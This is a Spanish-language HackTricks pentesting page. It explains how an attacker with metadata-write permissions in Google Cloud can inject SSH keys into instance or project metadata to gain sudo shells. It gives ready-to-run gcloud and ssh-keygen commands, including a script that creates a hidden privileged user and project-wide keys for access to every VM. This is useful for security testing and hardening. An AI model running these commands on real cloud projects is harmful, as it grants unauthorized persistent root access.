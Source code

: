 # GCP - Agregar Metadatos SSH Personalizados

## GCP - Agregar Metadatos SSH Personalizados

{{#include ../../../../banners/hacktricks-training.md}}

### Modificación de los metadatos <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

La modificación de los metadatos en una instancia podría llevar a **riesgos de seguridad significativos si un atacante obtiene los permisos necesarios**.

#### **Incorporación de claves SSH en metadatos personalizados**

En GCP, **los sistemas Linux** a menudo ejecutan scripts desde el [Entorno de Invitado de Python para Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Un componente crítico de esto es el [demonio de cuentas](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), que está diseñado para **verificar regularmente** el punto final de metadatos de la instancia en busca de **actualizaciones de las claves públicas SSH autorizadas**.

Por lo tanto, si un atacante puede modificar los metadatos personalizados, podría hacer que el demonio encuentre una nueva clave pública, que será procesada e **integrada en el sistema local**. La clave se añadirá al archivo `~/.ssh/authorized_keys` de un **usuario existente o potencialmente creando un nuevo usuario con privilegios de `sudo`**, dependiendo del formato de la clave. Y el atacante podrá comprometer el host.

#### **Agregar clave SSH a un usuario privilegiado existente**

1. **Examinar las claves SSH existentes en la instancia:**

- Ejecutar el comando para describir la instancia y sus metadatos para localizar las claves SSH existentes. La sección relevante en la salida estará bajo `metadata`, específicamente la clave `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```

- Prestar atención al formato de las claves SSH: el nombre de usuario precede a la clave, separado por dos puntos.

2. **Preparar un archivo de texto para los metadatos de la clave SSH:**
- Guardar los detalles de los nombres de usuario y sus correspondientes claves SSH en un archivo de texto llamado `meta.txt`. Esto es esencial para preservar las claves existentes mientras se añaden nuevas.
3. **Generar una nueva clave SSH para el usuario objetivo (`alice` en este ejemplo):**

- Usar el comando `ssh-keygen` para generar una nueva clave SSH, asegurándose de que el campo de comentario (`-C`) coincida con el nombre de usuario objetivo.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

- Agregar la nueva clave pública a `meta.txt`, imitando el formato encontrado en los metadatos de la instancia.

4. **Actualizar los metadatos de la clave SSH de la instancia:**

- Aplicar los metadatos de clave SSH actualizados a la instancia utilizando el comando `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Acceder a la instancia utilizando la nueva clave SSH:**

- Conectarse a la instancia con SSH utilizando la nueva clave, accediendo a la shell en el contexto del usuario objetivo (`alice` en este ejemplo).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Crear un nuevo usuario privilegiado y agregar una clave SSH**

Si no se encuentra un usuario interesante, es posible crear uno nuevo que se le otorgarán privilegios de `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### Claves SSH a nivel de proyecto <a href="#sshing-around" id="sshing-around"></a>

Es posible ampliar el alcance del acceso SSH a múltiples Máquinas Virtuales (VMs) en un entorno de nube al **aplicar claves SSH a nivel de proyecto**. Este enfoque permite el acceso SSH a cualquier instancia dentro del proyecto que no haya bloqueado explícitamente las claves SSH a nivel de proyecto. Aquí hay una guía resumida:

1. **Aplicar Claves SSH a Nivel de Proyecto:**

- Utiliza el comando `gcloud compute project-info add-metadata` para agregar claves SSH desde `meta.txt` a los metadatos del proyecto. Esta acción asegura que las claves SSH sean reconocidas en todas las VMs del proyecto, a menos que una VM tenga habilitada la opción "Bloquear claves SSH a nivel de proyecto".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH en Instancias Usando Claves a Nivel de Proyecto:**
- Con las claves SSH a nivel de proyecto en su lugar, puedes SSH en cualquier instancia dentro del proyecto. Las instancias que no bloquean las claves a nivel de proyecto aceptarán la clave SSH, otorgando acceso.
- Un método directo para SSH en una instancia es usar el comando `gcloud compute ssh [INSTANCE]`. Este comando utiliza tu nombre de usuario actual y las claves SSH establecidas a nivel de proyecto para intentar el acceso.

## Referencias

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}
